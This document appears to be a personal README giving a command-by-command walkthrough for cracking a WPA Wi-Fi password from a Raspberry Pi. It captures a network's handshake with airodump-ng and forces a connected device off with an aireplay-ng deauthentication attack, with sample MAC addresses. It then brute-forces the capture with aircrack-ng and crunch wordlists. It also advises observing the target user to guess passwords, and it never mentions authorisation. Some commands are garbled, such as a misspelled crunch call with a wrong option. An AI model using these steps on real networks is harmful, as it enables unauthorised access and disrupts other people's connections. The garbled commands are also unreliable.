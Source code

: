 # Get Wi-fi Handshake
>This is just a reminder for me to keep in mind how to get the wi-fi handshake while monitoring particular wi-fi signal.
>I used Wi-fi Adaptor plugged into Raspberry Pi running NOOBS.
## Connecting Raspberry Pi
>Open terminal, make sure `SSH` is enabled in your raspberry pi.
```
$ ssh <userName>@<IP>
```
>Example: `ssh pi@192.168.1.100`.
>If it ask you something, type `yes` and then enter your user password.
## Before Starting
```
$ sudo apt-get update
$ sudo apt-get upgrade
```
## Downloading Airmon-ng
```
$ sudo apt-get install airmon-ng
```
## Checking Available Wi-fi Adaptors
>Since you have 2 wi-fi adaptors, make sure you use one for monitoring while using other to control your raspberry pi.
>You could either checking your adaptors by;
```
$ ifconfig
```
>or, since you already installed `airmon-ng`
```
$ sudo airmon-ng
```
>You will see `wlan0` and `wlan1` AND their IP's. Keep in mind which one is which.

## Starting Monitoring
```
$ sudo airmon-ng start wlan0
```
>This code will start monitoring mode for `wlan0`. If you were connecting the raspberry pi from this adaptor, your connection will stop.
>After this code, you will also see that the name of `wlan0` turns to `wlan0mon`. This is the name you will use after this point.
```
$ sudo airodump-ng wlan0mon
```
>This line will list you all the available wi-fi signals and their properties for you. `BSSID`,`DATA`,`CH` and so on.
>After choosing one, press `ctrl+c` to stop listing.

## Getting the Handshake
```
$ sudo airodump-ng --bssid <BSSID> --channel <CH> --write <namehandshakedocument> wlan0mon
```
>Example: `sudo airodump-ng --bssid EC:08:6B:C7:24:CA --channel 1 --write handshake wlan0mon`.
>This will start documentation with the name of `handshake`.
>To get the handshake, at least one device should connect to that wi-fi. If you can not;

### Deauth Attack
>With this attack, you can drop one device already connected to wi-fi. And while the device trying to reconnect, you will get the handshake.
>To do this attack while listening the wi-fi, you should open a new terminal window and connect to raspberry pi again.
>After that,
```
$ sudo airodump-ng --bssid <BSSID> --channel <CH> wlan0mon
$ sudo aireplay-ng --deauth <MSECONDS> -a <BSSID> -c <TARGERDEVICEMACADDRESS> wlan0mon
```
>Example: `sudo aireplay-ng --deauth 1000 -a EC:08:6B:C7:24:CA -c 28:3F:69:46:2C:F2 wlan0mon`.
-Tip: The greater `MSECONDS` is, the longer that device gets hard time connecting to wi-fi.
>After the attack, at the first terminal, you shoul be able to see `WPA handshake: EC:08:6B:C7:24:CA` n top.

##Decrypting
>This is the hard part. You have the handshake but, it is still encrypted. However, there are few methods to decrypt.
>Your `handshake` document will be waiting at `/home/pi`. You will see some new documents, you will only going to need the one named `handshake.cap`.

###Aircrack-ng
>You could try using `aircrack-ng` but, it will take so much time.
```
$ sudo aircrack-ng handshake.cap
```
###Listing All Combinations
```
$ sudo crunch <NUMBER> <NUMBER> <CHARACTERS> -a <FILENAME> <SPECIALS>
```
>Example: ``sudo cruch 4 6 123ab -a word-list -t a@@@@b`.
>What this line do is, listing all the possible combination password that has min 4, max 6 characters; the characters/numbers of 1 2 3 a and b will be used and that starts with a and ends with b.
>Since passwords are long and complicated than just normal texts, I would guess this will also take some time.

###Making Your Own rockyou List
>`rockyou.txt` is a list of common password on internet. And this is where things gets interesting. Know your target, observe the user, try to guess possible key words and write them all.
>After you are done with rockyou list,
```
$ sudo aircrack-ng handshake.cap -w rockyou
```
>This will compare all the possible passwords and give you the result. It could fail or success, depends on how good your rockyou list.

## To Turn Your Adaptor Back On
```
$ sudo airmon-ng stop wlan0mon
```
